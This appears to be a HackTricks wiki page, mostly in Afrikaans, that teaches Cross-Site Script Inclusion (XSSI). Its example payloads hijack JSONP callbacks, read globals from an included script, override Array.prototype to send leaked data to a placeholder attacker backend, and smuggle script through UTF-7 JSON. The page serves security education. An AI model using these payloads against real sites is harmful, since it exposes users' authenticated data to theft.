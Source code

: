 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** is 'n kwesbaarheid wat ontstaan uit die aard van die `script` tag in HTML. Anders as die meeste hulpbronne, wat onderhewig is aan die **Same-Origin Policy (SOP)**, kan skripte van verskillende domeine ingesluit word. Hierdie gedrag is bedoel om die gebruik van biblioteke en ander hulpbronne wat op verskillende bedieners gehoste is, te fasiliteer, maar dit stel ook 'n potensiële sekuriteitsrisiko in.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Skripte is vrygestel van die **Same-Origin Policy**, wat dit moontlik maak om oor domeine ingesluit te word.
- **Data Exposure**: 'n Aanvaller kan hierdie gedrag benut om data wat via die `script` tag gelaai is, te lees.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is veral relevant vir dinamiese JavaScript of **JSON with Padding (JSONP)**. Hierdie tegnologieë gebruik dikwels "ambient-authority" inligting (soos koekies) vir outentisering. Wanneer 'n skrip versoek aan 'n ander gasheer gemaak word, word hierdie geloofsbriewe (bv. koekies) outomaties in die versoek ingesluit.
- **Authentication Token Leakage**: As 'n aanvaller 'n gebruiker se blaaiert kan mislei om 'n skrip van 'n bediener wat hulle beheer, aan te vra, mag hulle in staat wees om sensitiewe inligting wat in hierdie versoeke bevat is, te bekom.

### Types

1. **Static JavaScript** - Dit verteenwoordig die konvensionele vorm van XSSI.
2. **Static JavaScript with Authentication** - Hierdie tipe is uniek omdat dit outentisering vereis om toegang te verkry.
3. **Dynamic JavaScript** - Betrek JavaScript wat dinamies inhoud genereer.
4. **Non-JavaScript** - Verwys na kwesbaarhede wat nie direk JavaScript betrek nie.

**Die volgende inligting is 'n opsomming van [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Kyk daarna vir verdere besonderhede.


### Regular XSSI
In hierdie benadering is private inligting ingebed binne 'n wêreldwyd toeganklike JavaScript-lêer. Aanvallers kan hierdie lêers identifiseer deur metodes soos lêerlees, sleutelwoordsoektogte, of gereelde uitdrukkings. Sodra dit geleë is, kan die skrip wat private inligting bevat, ingesluit word in kwaadwillige inhoud, wat ongeoorloofde toegang tot sensitiewe data moontlik maak. 'n Voorbeeld van 'n eksploitasiemetode word hieronder getoon:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dinamiese-JavaScript-gebaseerde-XSSI en Geverifieerde-JavaScript-XSSI
Hierdie tipes XSSI-aanvalle behels dat vertroulike inligting dinamies by die skrip gevoeg word in reaksie op 'n gebruiker se versoek. Opsporing kan gedoen word deur versoeke met en sonder koekies te stuur en die antwoorde te vergelyk. As die inligting verskil, kan dit die teenwoordigheid van vertroulike inligting aandui. Hierdie proses kan geoutomatiseer word met behulp van gereedskap soos die [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp-uitbreiding.

As vertroulike data in 'n globale veranderlike gestoor word, kan dit uitgebuit word met behulp van soortgelyke metodes as dié wat in Gereelde XSSI gebruik word. As die vertroulike data egter in 'n JSONP-antwoord ingesluit is, kan aanvallers die terugroepfunksie oorneem om die inligting te verkry. Dit kan gedoen word deur óf globale voorwerpe te manipuleer óf 'n funksie op te stel wat deur die JSONP-antwoord uitgevoer moet word, soos hieronder gedemonstreer:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Vir veranderlikes wat nie in die globale naamruimte woon nie, kan *prototype tampering* soms uitgebuit word. Hierdie tegniek benut JavaScript se ontwerp, waar kode-interpretasie die prototipe-ketting deurloop om die aangeroepde eienskap te vind. Deur sekere funksies te oorskry, soos `Array` se `slice`, kan aanvallers nie-globale veranderlikes toegang verkry en lek:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Takeshi Terada se navorsing stel 'n ander vorm van XSSI bekend, waar Non-Script lêers, soos CSV, oor oorsprong geleak word deur as bronne in 'n `script` tag ingesluit te word. Historiese voorbeelde van XSSI, soos Jeremiah Grossman se 2006 aanval om 'n volledige Google adresboek te lees en Joe Walker se 2007 JSON data leak, beklemtoon die erns van hierdie bedreigings. Daarbenewens beskryf Gareth Heyes 'n aanval variant wat UTF-7 geënkodeerde JSON insluit om die JSON-formaat te ontsnap en skripte uit te voer, effektief in sekere blaaiers:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
